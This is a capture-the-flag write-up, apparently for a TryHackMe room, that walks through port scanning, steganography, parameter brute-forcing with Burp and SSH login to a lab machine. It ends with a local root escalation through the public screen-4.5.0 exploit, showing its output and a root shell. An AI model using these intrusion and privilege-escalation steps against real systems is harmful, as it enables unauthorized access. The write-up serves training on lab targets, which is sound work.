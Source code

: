 # Madness

Will you be consumed by Madness?

## Flag Submission

![alt text](image.png)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

### user flag
Let's enumerate ports
```
nmap -Pn -T5 10.10.233.206
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-20 06:00 GMT
Nmap scan report for 10.10.233.206
Host is up (0.00051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:3D:0C:87:22:A9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

Find broken image

Restore jpg format by hexedit

PNG bytes:
`89 50 4E 47 0D 0A 1A 0A`

JFIF bytes:
`FF D8 FF E0 00 10 4A 46 49 46 00 01`

Let's break it down:

| Hex Code        | Description                             |
|---------------|---------------------------------|
| **FF D8**     | Start of Image (SOI) in JPEG format.  |
| **FF E0**     | APP0 marker (usually JFIF).         |
| **00 10**     | APP0 header length (16 bytes).      |
| **4A 46 49 46** | The string "JFIF" in ASCII.       |
| **00**        | Null byte.                         |
| **01**        | JFIF version 1.01.                 |


Go to http://10.10.233.206/th1s_1s_h1dd3n/

![alt text](image-1.png)

http://10.10.233.206/th1s_1s_h1dd3n/?secret=0

Let use Burp -> Intruder

![alt text](image-2.png)

http://10.10.233.206/th1s_1s_h1dd3n/?secret=73

![alt text](image-3.png)

Some secret - `y2RPJ4QaPF!B` but for what?

It was very hard to remember, that Stegonagraphy exist =)
```
steghide extract -sf thm.jpg
Enter passphrase: 
wrote extracted data to "hidden.txt".
root@ip-10-10-97-238:~# ls
burp.json   Downloads     Pictures  Scripts            thm.jpg
CTFBuilder  hidden.txt    Postman   snap               Tools
Desktop     Instructions  Rooms     thinclient_drives
root@ip-10-10-97-238:~# cat hidden.txt
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Use ROT13 bruteforce for wbxre

Nice! We have username!

Try SSH with previous password - Unsuccess

```
ssh joker@10.10.65.48
The authenticity of host '10.10.65.48 (10.10.65.48)' can't be established.
ECDSA key fingerprint is SHA256:Wi0RpQNwFTfSuABX4f8gKrf3UzJBmrNOdVjVnBBqL5E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.48' (ECDSA) to the list of known hosts.
joker@10.10.65.48's password: 
Permission denied, please try again.
```

Another breakpoint...what should we do

Stegonagraphy time! Again

Check this image - 
![alt text](image-4.png)

```
steghide extract -sf 5iW7kC8.jpeg
Enter passphrase: 
wrote extracted data to "password.txt".
cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

Finally we have login and password, hope for SSH this time

```
ssh joker@10.10.65.48
joker@10.10.65.48's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
```

Check, do we have some sudo priveleges 
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
Okay, let's try to search somethimg interesting
```
find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 29  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0.old
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /bin/umount
```

Try mount - nope

We see `screen-4.5.0`
Let's check it out - https://www.exploit-db.com/exploits/41154

Don't forget to make this script executable

```
joker@ubuntu:~$ chmod +x exploit
joker@ubuntu:~$ ./exploit
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function \u2018dropshell\u2019:
/tmp/libhax.c:7:5: warning: implicit declaration of function \u2018chmod\u2019 [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function \u2018main\u2019:
/tmp/rootshell.c:3:5: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function \u2018setgid\u2019 [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function \u2018seteuid\u2019 [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function \u2018setegid\u2019 [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function \u2018execvp\u2019 [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cat /root/root.txt
```
